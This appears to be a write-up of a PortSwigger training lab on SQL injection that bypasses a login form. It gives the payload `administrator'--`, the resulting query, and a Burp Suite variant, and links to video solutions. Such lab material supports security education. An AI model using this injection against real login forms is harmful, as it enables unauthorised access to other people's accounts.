

# Lab: SQL injection vulnerability allowing login bypass

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the login function.

To solve the lab, perform an SQL injection attack that logs in to the application as the `administrator` user.


# Attack

### Navigate to the login form


### Analyzing the form inputs


### Try `admin:admin`


Invalid username or password.

## Try first payload


## Attack Payload

```
administrator'--
test
```


This results into having a query of:

```
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

## Solved



# Other Solutions

## Burp Suite

1. Use Burp Suite to intercept and modify the login request.
2. Modify the `username` parameter, giving it the value: `administrator'--`

## Community Solution

Rana Khalil

[SQL Injection - Lab #2 SQL injection vulnerability allowing login bypass](https://youtu.be/ML3aGaloczI)

Michael Sommer

[SQL injection vulnerability allowing login bypass (Video solution, Audio)](https://youtu.be/4FGkpyYYfCs)

